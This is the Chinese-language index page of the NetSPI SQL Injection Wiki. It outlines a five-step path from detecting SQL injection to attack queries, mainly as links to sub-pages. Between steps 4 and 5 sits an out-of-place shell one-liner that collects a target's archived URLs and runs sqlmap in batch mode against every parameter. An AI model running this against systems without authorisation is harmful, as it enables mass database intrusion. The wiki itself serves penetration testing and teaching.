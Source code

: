 ## 欢迎来到NetSPI SQL 注入 Wiki！{docsify-ignore-all}

本wiki的使命是成为一站式资源，用于全面识别，利用和升级各种数据库管理系统（DBMS）中的SQL注入漏洞。 这个wiki假设您对SQL注入有基本的了解，如果您不熟悉SQL注入，请到[这里](https://www.owasp.org/index.php/SQL_Injection)进行了解。

以下维基结构大纲是按照正常升级路径排列的。 某些查询可能是特定版本的。

### 第1步：[注入检测](/detection)

### 第2步：[DBMS识别](/dbmsIdentification)

### 第3步：[注入类型](/injectionTypes)

### 第4步：[注入技术](/injectionTechniques)
SQLMap from Waybackurls
waybackurls target | grep -E '\bhttps?://\S+?=\S+' | grep -E '\.php|\.asp' | sort -u | sed 's/\(=[^&]*\)/=/g' | tee urls.txt | sort -u -o urls.txt && cat urls.txt | xargs -I{} sqlmap --technique=T --batch -u "{}"
### 第5步：[攻击查询](/attackQueries)

## 贡献

如果您发现某些遗漏或不准确的情况，请随时在我们的[Github](https://github.com/ning1022/SQLInjectionWiki/)上提交请求或问题。
